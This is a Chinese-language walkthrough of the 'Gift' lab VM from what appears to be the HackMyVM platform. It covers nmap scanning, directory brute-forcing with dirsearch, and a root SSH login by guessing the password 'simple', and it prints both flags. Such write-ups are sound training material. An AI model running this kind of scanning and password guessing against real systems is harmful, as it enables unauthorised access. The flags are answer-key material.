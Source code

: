 # Gift

:::note

A really easy VM. Thats a gift :)

:::

## 靶机启动

![靶机启动](img/image_20231248-224823.png)

虚拟机 IP：

```plaintext
192.168.163.129
```

## nmap 信息搜集

```shell
Nmap scan report for 192.168.163.129
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey:
|   3072 2c1b3627e54c527b3e10944139efb295 (RSA)
|   256 93c11e32240e34d9020effc39c599bdd (ECDSA)
|_  256 81ab36ecb12b5cd28655120c510027d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:8A:C2:42 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 访问 web - 80

![web port 80](img/image_20231255-225548.png)

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.163.129
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 57
Content-Type: text/html
Date: Thu, 21 Dec 2023 15:11:49 GMT
ETag: "5f678373-39"
Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
Server: nginx

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

## 尝试目录爆破

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $dirsearch -u 192.168.163.129

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/192.168.163.129_23-12-21_22-56-29.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-21_22-56-29.log

Target: http://192.168.163.129/

[22:56:29] Starting:
[22:56:38] 200 -   57B  - /index.html
```

## 尝试登录 SSH 服务

:::note 上文 web 所说的内容

```plaintext
ont Overthink. Really, Its simple.
```

尝试使用 `simple` 作为凭据登录 ssh 服务

:::

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $ssh root@192.168.163.129
root@192.168.163.129's password:
IM AN SSH SERVER
gift:~# whoami
root
gift:~# ls -lh
total 8K
----------    1 root     root          12 Sep 24  2020 root.txt
-rw-rw----    1 root     root          12 Sep 24  2020 user.txt
```

## user pwned

```shell
gift:~# cat user.txt
HMV665sXzDS
```

## root pwned

```shell
gift:~# cat root.txt
HMVtyr543FG
```
